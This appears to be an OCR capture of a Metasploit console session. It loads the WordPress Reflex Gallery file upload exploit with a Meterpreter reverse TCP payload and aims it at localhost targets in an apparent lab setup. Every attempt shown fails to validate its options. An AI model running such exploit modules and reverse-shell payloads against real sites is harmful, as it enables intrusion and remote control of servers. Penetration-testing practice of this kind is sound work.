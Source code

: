          msf6 > use xploit/unix/webapp/wp_reflexgallery_file_upload
          [*] No payload configured, defaulting to php/meterpreter/reverse_tcp                                                     
                                                                                                                                                                
          Matching Modules                                                                                                                                      
          ================                                                                                                                                      
                                                                                                                                                                
            #  Name                                              Disclosure Date  Rank       Check  Description                                                
            -  ----                                              ---------------  ----       -----  -----------                                                     
            0  exploit/unix/webapp/wp_reflexgallery_file_upload  2012-12-30       excellent  Yes    Wordpress Reflex Gallery Upload Vulnerability                   
                                                                                                                                                                          
                                                                                                                                                                          
          Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_reflexgallery_file_upload                                          
                                                                                                                                                                              
          [*] Using exploit/unix/webapp/wp_reflexgallery_file_upload                                                                                                          
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > use exploit/unix/webapp/wp_reflexgallery_file_upload                                                       
          [*] Using configured payload php/meterpreter/reverse_tcp                                                                                                            
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOST localhost:8080                                                                                    
          RHOST => localhost:8080
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit

          [-] Exploit failed: One or more options failed to validate: RHOSTS.
          [*] Exploit completed, but no session was created.
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > search Reflex

          Matching Modules
          ================

            #  Name                                              Disclosure Date  Rank       Check  Description
            -  ----                                              ---------------  ----       -----  -----------
            0  exploit/unix/webapp/wp_reflexgallery_file_upload  2012-12-30       excellent  Yes    Wordpress Reflex Gallery Upload Vulnerability


          Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_reflexgallery_file_upload

          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > use 0
          [*] Using configured payload php/meterpreter/reverse_tcp
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOST localhost:8080
          RHOST => localhost:8080
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set LHOST 127.0.0.1
          LHOST => 127.0.0.1
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit

          [-] Exploit failed: One or more options failed to validate: RHOSTS.
          [*] Exploit completed, but no session was created.
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > 
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set LHOST kali:8080
          LHOST => kali:8080
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit
